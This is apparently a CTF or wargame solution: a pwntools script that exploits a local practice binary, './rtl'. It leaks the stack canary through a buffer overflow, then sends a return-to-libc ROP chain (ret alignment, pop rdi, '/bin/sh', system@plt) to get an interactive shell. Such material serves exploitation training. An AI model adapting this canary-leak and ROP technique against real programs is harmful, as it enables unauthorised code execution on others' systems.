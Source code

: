 ```python
from pwn import *
p = process("./rtl")
e = ELF("./rtl")
def slog(name, addr): return success(": ".join([name, hex(addr)]))
# [1] Leak canary
buf = b"A"*0x39
p.sendafter("Buf: ", buf)
p.recvuntil(buf)
cnry = u64(b"\x00"+p.recvn(7))
slog("canary", cnry)

# [2] Exploit
SFP = b'S' * 8
system_plt = e.plt["system"]
binsh = 0x402004
pop_rdi = 0x0000000000401333
ret = 0x000000000040101a

payload = b"A" * 56 + p64(cnry) + SFP
payload += p64(ret)  # align stack to prevent errors caused by movaps
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system_plt)
pause()

p.sendafter("Buf: ", payload)
p.interactive()
```

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/191042063-dfde4334-f85a-44d0-b693-6debf0056573.jpg" width = 350>
</p>

